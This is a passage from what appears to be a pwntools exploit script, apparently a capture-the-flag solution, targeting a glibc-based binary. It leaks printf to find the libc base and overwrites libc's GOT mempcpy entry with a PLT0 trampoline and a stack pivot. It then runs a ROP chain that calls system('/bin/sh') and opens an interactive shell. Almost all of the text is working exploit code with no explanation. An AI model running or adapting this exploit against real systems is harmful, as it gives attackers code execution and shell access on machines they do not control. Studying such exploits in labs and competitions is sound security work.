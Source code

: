 ```python
        ss(f"{varname} => {hex(val)}")
    else:
        ss(hex(val))


############################################

context.arch = 'amd64'


def fx3(libc: ELF, slot, rop_chain):
    got = libc.address + libc.dynamic_value_by_tag("DT_PLTGOT")
    plt0 = libc.address + libc.get_section_by_name(".plt").header.sh_addr

    pivot = libc.address + 0x0000000000035732  # pop rsp; ret
    escape = libc.address + 0x00000000000838f8  # pop rsp; jmp rax

    write_dest = got + 8
    rop_chain2 = flat(rop_chain, escape, got + 0x3000 - 8)
    trampoline_offset = slot * 8 - (write_dest - got)
    rop_offset = 0x10
    if len(rop_chain2) > trampoline_offset - 0x10:
        rop_offset = trampoline_offset + 8
    info("rop offset: 0x{:x}".format(rop_offset))
    write_data = flat({
        0x00: write_dest + rop_offset,
        0x08: pivot,
        rop_offset: rop_chain2,
        trampoline_offset: plt0,
    }, word_size=64)

    return write_dest, write_data


leak = int(rl(), 16)
logsym(leak)
lbase = leak - libc.sym['printf']
logsym(lbase)
libc.address = lbase

got = lbase + libc.dynamic_value_by_tag("DT_PLTGOT")
strchrnul_got = lbase + 0x2190B8
mempcpy_got = lbase + 0x219040
prdi = lbase + 0x000000000002a3e5  # pop rdi; ret
prax = lbase + 0x0000000000045eb0  # pop rax; ret

rop_chain = flat(
    prdi, libc.search(b"/bin/sh").__next__(),
    prax, libc.sym["system"]
)
dest, payload = fx3(libc, slot=(mempcpy_got - got) // 8, rop_chain=rop_chain)

ss("write payload to {}, length {}".format(hex(dest), hex(len(payload))))
sd(p64(dest))
sd(p64(len(payload)))
sd(payload)

interact()
```
